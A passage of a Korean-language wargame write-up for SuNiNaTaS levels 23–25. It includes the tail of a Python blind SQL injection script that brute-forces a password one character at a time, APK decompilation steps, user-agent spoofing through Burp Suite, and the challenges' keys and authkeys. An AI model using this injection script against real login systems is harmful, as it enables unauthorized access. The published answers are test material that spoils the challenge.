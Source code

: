```python
    str3 = "'--"
    while(column <= 10): # loop for column
        log += 'column : ' + str(column) + '\n'
        while(alphabet <= 126): # loop for alphabet
            # upper case
            str_id = str1 + str(column) + str2 + chr(alphabet) + password + str3
            login['id'] = str_id
            req = s.post(level23, data=login)
            log += 'query : ' + str_id + '\n'
            if 'OK' in req.text:
                password = chr(alphabet) + password
                break
            
            alphabet += 1
        log += 'password : ' +  str(password) + '\n'
        alphabet = 32
        column += 1
    
    with open('level23-right.txt', 'w') as f:
        f.write(log)

    print('done')
```

***Authkey : v3ryhardsqli***


## level 24 - Android OS
다운로드 받은 파일을 winHex로 열면 파일 시작 부분에 PK라는 문자가 보인다. 이를 통해 해당 파일이 압축파일 포맷임을 유추해낼 수 있다. 파일 확장자를 .zip로 바꾸고 압축을 해제하면 AndroidManifest.xml, classes.dex 등과 같은 파일이 보인다. 이 파일이 apk파일(안드로이드 앱)이라는 것을 알 수 있다. dex2jar, 7za, jad를 이용한 안드로이드 앱 정적분석 기법을 이용하여 소스코드를 추출한다.
Step1) $ d2j-dex2jar.bat classes.dex
Step2) $ 7za x classes-dex2jar.jar -osuninatas_class
Step3) $ jad -r -sjava -d suninatas_java suninatas_class **/*.class

소스코드에서 key value를 확인할 수 있다.

**Key value : WE1C0mEToandr01d**

파일의 확장자를 .apk로 변경하여 앱을 설치한 뒤 Autokey를 얻어내거나, 소스코드를 통해 authkey를 생성하는 url을 유추하여 user agent에 Mobile을 추가한 후 PC환경에서 authkey를 얻는 url에 접속할 수도 있다. User agent는 burp suite의 intercept 기능을 통해 수정할 수 있다. 비밀번호에 특수문자가 포함되어 있으면 서버 측에서 필터링되므로 비밀번호를 수정해야한다.

**url : http://www.suninatas.com/Part_one/web24/chk_key.asp?id=(yourid)&pw=(yourpw)&key=WE1C0mEToandr01d**

***Authkey : StARtANdr0idW0r1d***


## level 25 - Android OS
24번 문제와 마찬가지로 소스코드를 추출한다. 24번과 다른 점은 apk파일이 손상되어 앱을 설치할 수 없다는 점이다. 소스코드를 보고 url을 유추한 뒤, user agent에 Mobile을 추가하여 PC 환경에서 authkey를 얻는다. User agent는 burp suite의 intercept 기능을 통해 수정할 수 있다. 비밀번호에 특수문자가 포함되어 있으면 서버 측에서 필터링되므로 비밀번호를 수정해야한다.
